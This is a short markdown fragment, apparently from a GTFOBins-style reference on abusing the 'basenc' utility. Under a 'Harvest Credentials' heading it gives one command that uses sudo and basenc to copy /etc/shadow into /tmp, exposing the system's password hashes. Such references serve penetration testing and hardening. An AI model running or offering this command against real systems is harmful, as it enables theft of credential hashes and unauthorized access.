 # Basenc

## Harvest Credentials

```
user@debian:~$ sudo basenc --base64 /etc/shadow | basenc --base64 -d > /tmp/shadow
```